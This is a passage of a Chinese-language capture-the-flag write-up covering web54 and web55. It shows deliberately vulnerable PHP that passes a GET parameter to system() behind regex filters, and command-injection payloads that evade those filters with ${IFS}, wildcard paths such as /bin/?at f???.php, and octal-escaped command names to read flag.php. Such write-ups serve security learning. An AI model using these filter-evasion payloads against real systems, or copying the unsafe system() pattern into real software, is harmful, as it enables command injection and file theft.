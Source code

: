```php
?c=ca''t${IFS}fl''ag.php
```

## web54（.*类尽可能匹配）

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

```php
正则加入了.*尽可能多匹配，flag绕过方式就不可以了，但是可以用?来替代，|.*f.*l.*a.*g.*| 这种过滤就是字母不能按过滤的顺序出现

比如说cat，.*当出现cat这个整体时才会进行匹配，会尽可能匹配较多字符，ca，c之类的字符不会进行匹配，tac为什么不能用t??,是因为还有一个跟它一样长度的命令top
```

```php
POC1:
?c=/bin/?at${IFS}f???.php
POC2:
?c=vi${IFS}f???.php

Linux 的很多命令存放在 /bin/ 目录下，且可以通过绝对路径来使用，而且支持通配符。

如 cat 命令也可这样使用：/bin/?at
```

## web55（无字母）

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

```php
1.
改题过滤了字母，但是没有过滤数字，可以尝试使用/bin目录下的可执行程序
?c=/bin/base64 flag.php //以base64形式输出文件内容
替换后变成
?c=/???/????64 ????????
2.
使用
$'\154\163'
会执行ls
故payload是
/?c=$'\143\141\164'%20*
3.
?c=/???/???/????2 ????.???
即/usr/bin/bzip2 flag.php
```